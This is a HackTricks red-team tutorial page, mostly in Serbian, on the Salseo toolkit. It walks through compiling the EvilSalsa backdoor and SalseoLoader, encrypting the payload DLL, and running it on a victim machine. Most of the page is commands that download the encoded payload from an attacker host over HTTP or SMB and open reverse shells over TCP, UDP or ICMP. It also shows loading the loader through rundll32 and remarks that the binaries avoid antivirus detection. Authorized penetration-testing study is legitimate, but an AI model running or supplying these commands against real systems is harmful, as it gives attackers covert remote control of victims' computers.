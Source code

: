 # Salseo

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Kompajliranje binarnih fajlova

Preuzmite izvorni kod sa github-a i kompajlirajte **EvilSalsa** i **SalseoLoader**. Biće vam potreban **Visual Studio** instaliran da biste kompajlirali kod.

Kompajlirajte te projekte za arhitekturu Windows mašine na kojoj ćete ih koristiti (Ako Windows podržava x64, kompajlirajte ih za tu arhitekturu).

Možete **izabrati arhitekturu** unutar Visual Studio-a u **levom "Build" tabu** u **"Platform Target".**

(\*\*Ako ne možete pronaći ove opcije, pritisnite na **"Project Tab"** a zatim na **"\<Project Name> Properties"**)

![](<../.gitbook/assets/image (839).png>)

Zatim, izgradite oba projekta (Build -> Build Solution) (Unutar logova će se pojaviti putanja do izvršnog fajla):

![](<../.gitbook/assets/image (381).png>)

## Pripremite Backdoor

Prvo, biće potrebno da kodirate **EvilSalsa.dll.** Da biste to uradili, možete koristiti python skriptu **encrypterassembly.py** ili možete kompajlirati projekat **EncrypterAssembly**:

### **Python**
```
python EncrypterAssembly/encrypterassembly.py <FILE> <PASSWORD> <OUTPUT_FILE>
python EncrypterAssembly/encrypterassembly.py EvilSalsax.dll password evilsalsa.dll.txt
```
### Windows
```
EncrypterAssembly.exe <FILE> <PASSWORD> <OUTPUT_FILE>
EncrypterAssembly.exe EvilSalsax.dll password evilsalsa.dll.txt
```
U redu, sada imate sve što vam je potrebno da izvršite sve Salseo stvari: **encoded EvilDalsa.dll** i **binary of SalseoLoader.**

**Upload the SalseoLoader.exe binary to the machine. They shouldn't be detected by any AV...**

## **Execute the backdoor**

### **Getting a TCP reverse shell (downloading encoded dll through HTTP)**

Zapamtite da pokrenete nc kao slušača za reverznu ljusku i HTTP server da poslužite encoded evilsalsa.
```
SalseoLoader.exe password http://<Attacker-IP>/evilsalsa.dll.txt reversetcp <Attacker-IP> <Port>
```
### **Dobijanje UDP reverzibilne ljuske (preuzimanje kodirane dll preko SMB)**

Zapamtite da pokrenete nc kao slušača reverzibilne ljuske, i SMB server da posluži kodirani evilsalsa (impacket-smbserver).
```
SalseoLoader.exe password \\<Attacker-IP>/folder/evilsalsa.dll.txt reverseudp <Attacker-IP> <Port>
```
### **Dobijanje ICMP reverzibilne ljuske (kodirana dll već unutar žrtve)**

**Ovoga puta vam je potreban poseban alat na klijentu da primite reverzibilnu ljusku. Preuzmite:** [**https://github.com/inquisb/icmpsh**](https://github.com/inquisb/icmpsh)

#### **Onemogućite ICMP odgovore:**
```
sysctl -w net.ipv4.icmp_echo_ignore_all=1

#You finish, you can enable it again running:
sysctl -w net.ipv4.icmp_echo_ignore_all=0
```
#### Izvrši klijenta:
```
python icmpsh_m.py "<Attacker-IP>" "<Victm-IP>"
```
#### Unutar žrtve, hajde da izvršimo salseo stvar:
```
SalseoLoader.exe password C:/Path/to/evilsalsa.dll.txt reverseicmp <Attacker-IP>
```
## Kompajliranje SalseoLoader-a kao DLL koji izvozi glavnu funkciju

Otvorite SalseoLoader projekat koristeći Visual Studio.

### Dodajte pre glavne funkcije: \[DllExport]

![](<../.gitbook/assets/image (409).png>)

### Instalirajte DllExport za ovaj projekat

#### **Alati** --> **NuGet Package Manager** --> **Upravljanje NuGet paketima za rešenje...**

![](<../.gitbook/assets/image (881).png>)

#### **Pretražite DllExport paket (koristeći Browse tab), i pritisnite Instaliraj (i prihvatite iskačući prozor)**

![](<../.gitbook/assets/image (100).png>)

U vašem projektnom folderu su se pojavili fajlovi: **DllExport.bat** i **DllExport\_Configure.bat**

### **De**instalirajte DllExport

Pritisnite **Deinstaliraj** (da, čudno je, ali verujte mi, to je neophodno)

![](<../.gitbook/assets/image (97).png>)

### **Izađite iz Visual Studio i izvršite DllExport\_configure**

Jednostavno **izađite** iz Visual Studio

Zatim, idite u vaš **SalseoLoader folder** i **izvršite DllExport\_Configure.bat**

Izaberite **x64** (ako planirate da ga koristite unutar x64 okruženja, to je bio moj slučaj), izaberite **System.Runtime.InteropServices** (unutar **Namespace for DllExport**) i pritisnite **Primeni**

![](<../.gitbook/assets/image (882).png>)

### **Ponovo otvorite projekat sa Visual Studio**

**\[DllExport]** više ne bi trebao biti označen kao greška

![](<../.gitbook/assets/image (670).png>)

### Izgradite rešenje

Izaberite **Tip izlaza = Klasa biblioteka** (Projekat --> SalseoLoader Svojstva --> Aplikacija --> Tip izlaza = Klasa biblioteka)

![](<../.gitbook/assets/image (847).png>)

Izaberite **x64** **platformu** (Projekat --> SalseoLoader Svojstva --> Izgradnja --> Ciljna platforma = x64)

![](<../.gitbook/assets/image (285).png>)

Da **izgradite** rešenje: Izgradnja --> Izgradi rešenje (Unutar izlazne konzole će se pojaviti putanja novog DLL-a)

### Testirajte generisani DLL

Kopirajte i nalepite DLL gde želite da ga testirate.

Izvršite:
```
rundll32.exe SalseoLoader.dll,main
```
Ako se ne pojavi greška, verovatno imate funkcionalni DLL!!

## Dobijanje shel-a koristeći DLL

Ne zaboravite da koristite **HTTP** **server** i postavite **nc** **listener**

### Powershell
```
$env:pass="password"
$env:payload="http://10.2.0.5/evilsalsax64.dll.txt"
$env:lhost="10.2.0.5"
$env:lport="1337"
$env:shell="reversetcp"
rundll32.exe SalseoLoader.dll,main
```
### CMD
```
set pass=password
set payload=http://10.2.0.5/evilsalsax64.dll.txt
set lhost=10.2.0.5
set lport=1337
set shell=reversetcp
rundll32.exe SalseoLoader.dll,main
```
{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
